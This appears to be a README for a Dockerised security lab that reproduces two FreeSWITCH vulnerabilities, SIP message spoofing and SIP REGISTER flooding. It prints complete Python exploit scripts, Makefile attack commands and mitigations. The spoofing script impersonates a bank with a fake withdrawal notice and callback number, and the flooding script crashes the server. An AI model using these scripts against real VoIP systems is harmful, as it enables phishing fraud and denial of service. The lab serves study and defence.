


# SIP Spoofing and SIP Flooding
- Vulnerable component: FreeSWITCH server
- Affected version: ≤ 1.10.6
- CVE IDs: [CVE-2021-37624](https://nvd.nist.gov/vuln/detail/CVE-2021-37624), [CVE-2021-41145](https://nvd.nist.gov/vuln/detail/CVE-2021-41145)
## Description
In this scenario, the first attack consists of sending a SIP Message from an unregistered user impersonating another user (spoofing). In the second attack, continuous registration requests are sent to the FreeSWITCH server, causing the container to crash (DoS via SIP Flooding).

## Quick automation with Makefile
You can automate both attacks similarly to the RTP Bleed lab:

```bash
# Scenario 1: SIP spoofing with legit CLI client monitoring
make auto-attack SCENARIO=1 TARGET_IP=<IP_VM> TARGET_EXT=1001 SIP_SERVER=<IP_VM>

# Scenario 2: DoS SIP flooding (runs in background)
make auto-attack SCENARIO=2 TARGET_IP=<IP_VM>
make dos-stop
```

Useful helpers:
```bash
make spoof-attack TARGET_IP=<IP_VM> TARGET_EXT=1001
make client-up SIP_SERVER=<IP_VM> CLIENT_EXT=1001 CLIENT_PASS=1234
make client-wait-registered CLIENT_EXT=1001
make client-logs
make client-watch
make client-check-spoof
make dos-start TARGET_IP=<IP_VM>
make dos-check
make dos-logs
make dos-stop
```

## 1. How to reproduce the issue - SIP Spoofing
The vulnerability affects the SIP server, which accepts unauthenticated messages. 
Because the server does not verify that the sender is registered (i.e. ```auth-messages = false``` by default), the spoofed message will be accepted — resulting in the spoofed user (e.g. ```UniCredit```) appearing to send the message.

### Step 1.1: Register a Linphone
For both attacks, the Linphone application is used. For the first scenario, a user must be registered. FreeSWITCH provides default users ranging from <b>1000</b> to <b>1020</b> (it is recommended to use one of these).
The username corresponds to the chosen value, while the password is <b>1234</b>.
To complete the registration, the SIP server must be specified. The IP address of the VM hosting the containers is used:


### Optional: Use the headless legitimate SIP client (recommended for automation)
Instead of desktop Linphone, you can run the bundled `sip-cli-1001` container and monitor its logs:

```bash
make client-up SIP_SERVER=<IP_VM> CLIENT_EXT=1001 CLIENT_PASS=1234
make client-wait-registered CLIENT_EXT=1001
make client-watch
```

Then trigger spoofing in another terminal:
```bash
make spoof-attack TARGET_IP=<IP_VM> TARGET_EXT=1001
```

To check evidence without live watch:
```bash
make client-check-spoof
make client-logs
```

When spoofing is successful, logs include `[INCOMING_MESSAGE]` entries with `From: UniCredit` and the fake withdrawal text.

### Step 1.2: Exploit the vulnerability

Once the <i>attacker</i> container is running, it can be accessed with:
```bash
docker exec -it attacker sh
```
and the python script can be executed:
```bash
python3 spoofing.py <IP_VM> <clientSIP>
```
where:
- `IP_VM` is the IP address of the VM (FreeSWITCH container);
- `clientSIP` is the number of the SIP client (linphone).

The script used is:
```python
import sys, socket, random, string

UDP_IP = sys.argv[1]
UDP_PORT = 5060
ext = sys.argv[2]
rand = ''.join(random.choice(string.ascii_lowercase) for i in range(8))
msg="MESSAGE sip:%s@%s SIP/2.0\r\n" % (ext, UDP_IP)
msg+="Via: SIP/2.0/UDP 192.168.2.19:10096;rport;branch=z9hG4bK-%s\r\n" % rand
msg+="Max-Forwards: 70\r\n"
msg+="From: <sip:UniCredit@%s>;tag=%s\r\n" %(UDP_IP, rand)
msg+="To: <sip:%s@%s>\r\n" %(ext, UDP_IP)
msg+="Call-ID: %s\r\n" % rand
msg+="CSeq: 1 MESSAGE\r\n"
msg+="Contact: <sip:UniCredit@192.168.2.19:10060;transport=udp>\r\n"
msg+="Content-Type: text/plain\r\n"
msg+="Content-Length: 81\r\n\r\n"
msg+="A withdrawal of €2,000 has been made.\nFor more information, call 321 757 75 11."

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.sendto(msg.encode(), (UDP_IP, UDP_PORT))
```

The following message will appear:


## Mitigations
- Upgrade to a patched version (e.g. 1.10.7 or later). 
- In configuration, set ```auth-messages = true``` so that SIP MESSAGE requests require authentication.

## 2. How to reproduce the issue - SIP Flooding
In this case no registration is required.

Because the server must allocate resources to process each registration, memory is exhausted and the FreeSWITCH container crashes. 
### Step 2.1: Exploit the vulnerability

Access the attacker container and run:
```bash
python3 dos-sipflood.py <IP_VM>
```
The script below repeatedly sends SIP REGISTER requests to the FreeSWITCH server:
```python
import socket, string, random, sys

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
cseq = 1
UDP_IP = sys.argv[1]
UDP_PORT = 5060

while True:
    r = ''.join(random.choice(string.ascii_lowercase) for i in range(10))
    
    msg = "REGISTER sip:%s SIP/2.0\r\n" % (UDP_IP, )
    msg += "Via: SIP/2.0/UDP %s:46786;rport;branch=z9hG4bK-%s\r\n" % (UDP_IP, r, )
    msg += "Max-Forwards: 70\r\n"
    msg += "From: <sip:98647499@%s>;tag=%s\r\n" % (UDP_IP, r, )
    msg += "To: <sip:98647499@%s>\r\n" % (UDP_IP, )
    msg += "Call-ID: %s\r\n" % (r, )
    msg += "CSeq: %s REGISTER\r\n" % (cseq, )
    msg += "Contact: <sip:98647499@%s:46786;transport=udp>\r\n" % (UDP_IP, )
    msg += "Expires: 60\r\n"
    msg += "Content-Length: 0\r\n"
    msg += "\r\n" 

    sock.sendto(msg.encode(), (UDP_IP, UDP_PORT))

    cseq += 1
```

You can observe this by monitoring the container with `docker stats`: after some time memory consumption grows until it hits the limit, then the container terminates.

### Automated DoS check (memory + crash validation)
Use the automated check to verify scenario 2 end-to-end:

```bash
make auto-attack SCENARIO=2
```

or manually:

```bash
make dos-start TARGET_IP=<IP_VM>
make dos-check
```

`dos-check` samples FreeSWITCH memory every few seconds and succeeds only when the `freeswitch` container status is no longer `running` (crashed/exited).  
The memory timeline is saved to:

```bash
/tmp/freeswitch-dos-mem.log
```

Before:



After:



## Mitigation
- Update to patched version (e.g. 1.10.7 or later).

## Credits
These vulnerabilities were discovered by [Enable Security](https://www.enablesecurity.com/).
